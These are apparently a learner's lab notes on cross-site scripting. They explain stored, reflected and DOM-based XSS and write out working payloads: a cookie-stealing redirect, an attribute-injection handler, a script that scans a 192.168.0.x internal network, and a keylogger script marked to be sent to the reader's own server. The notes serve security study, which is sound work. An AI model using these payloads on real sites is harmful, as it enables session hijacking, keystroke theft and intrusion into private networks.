# XSS (Cross-Site Scripting)

## Stored XSS

A website allows user input that is not sanitised.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>An example Stored XSS</p></figcaption></figure>

`<script>alert(1)</script>`

`<script>document.querySelector('#thm-title').textContent = 'Hey'</script>`

`<script>document.location='/log/'+document.cookie</script>`

## Reflected XSS

The malicious payload is part of the victims request to the website.

The website includes this payload in response back to the user.

An attacker needs to trick a victim into clicking a URL to execute their malicious payload.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>An example Reflected XSS</p></figcaption></figure>

Some browsers have in-built XSS protection.

In FireFox complete the following steps:

In URL bar: about:config

Search: browser.urlbar.filter.javascript

Change the boolean value from True to False

## DOM-Based XSS

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents.&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>DOM</p></figcaption></figure>

With **reflective** xss, an attackers payload will be injected directly on the website and will not matter when other Javascript on the site gets loaded.

```html
<html>
    You searched for <em><script>...</script></em>
</html>
```

With **DOM-Based** xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```javascript
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

Example: Upload picture:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



`test" onmouseover="alert(document.cookie)"`



<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## IP & Port Scanner

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

```javascript
<script>
    for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
        let ip = '192.168.0.' + i // Creates variable for forming IP
        // Creating an image element, if the resource can load, it logs to the /logs page.
        let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
        document.body.innerHTML += code // This is adding the image element to the webpage
    }
</script> 
```

## Key Logger

<pre class="language-javascript"><code class="lang-javascript">&#x3C;script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
<strong>        l += e.key; // If user types, log it to the l variable
</strong>        console.log(l); // update this line to post to your own server
    }
&#x3C;/script> </code></pre>

